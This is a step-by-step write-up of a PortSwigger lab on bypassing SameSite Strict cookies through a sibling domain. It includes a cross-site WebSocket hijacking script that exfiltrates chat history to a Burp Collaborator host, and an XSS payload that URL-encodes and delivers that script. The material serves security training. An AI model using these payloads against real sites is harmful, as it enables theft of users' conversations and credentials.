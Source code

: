 # SameSite Strict bypass via sibling domain

## This lab's live chat feature is vulnerable to [cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) ([CSWSH](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking)). To solve the lab, log in to the victim's account.

## To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## If you haven't done so already, we recommend completing our topic on [WebSocket vulnerabilities](https://portswigger.net/web-security/websockets) before attempting this lab.

`https://0a74003f04ae070c81a0d930002f007f.web-security-academy.net/chat`

### step1

open lab click on live chat and see history in burpsute

![[lab9_cms_link_dulicate_url.png]]

### step2

`https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net`
click on cms link
it will open login page

![[lab9_cms_login_page.png]]

click on login alert pop will com

![[lab9_cms_link_alert_pop.png]]

### step3

copy chat url
`https://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`

for making chat url
remove https and add wss
`wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat`
use below script

### HINT:

```html
<script>
  var ws = new WebSocket("wss://YOUR-LAB-ID.web-security-academy.net/chat");
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://YOUR-COLLABORATOR-PAYLOAD.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

change according to script and upload to explot and store and view expolit and pull burp collebrator

```html
<script>
  var ws = new WebSocket(
    "wss://0abd0094036db65e82d25c7500540002.web-security-academy.net/chat"
  );
  ws.onopen = function () {
    ws.send("READY");
  };
  ws.onmessage = function (event) {
    fetch("https://cdtqf729k3ob5xfk7n3ezkm80z6qugi5.oastify.com", {
      method: "POST",
      mode: "no-cors",
      body: event.data,
    });
  };
</script>
```

![[lab9_burpcollab_http_dns.png]]

![[lab9_chat_after_payload_samesite_strict.png]]

before payload
it was without same site
![[lab9_chat_page_no_same_site.png]]

### step4

### HINT:

```html
<script>
  document.location =
    "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

change according to script and put into expolit and pull burp colleb

```html
<script>
  document.location =
    "https://cms-0abd0094036db65e82d25c7500540002.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%62%64%30%30%39%34%30%33%36%64%62%36%35%65%38%32%64%32%35%63%37%35%30%30%35%34%30%30%30%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%63%64%74%71%66%37%32%39%6b%33%6f%62%35%78%66%6b%37%6e%33%65%7a%6b%6d%38%30%7a%36%71%75%67%69%35%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![[lab9_burpcollab_username_password.png]]

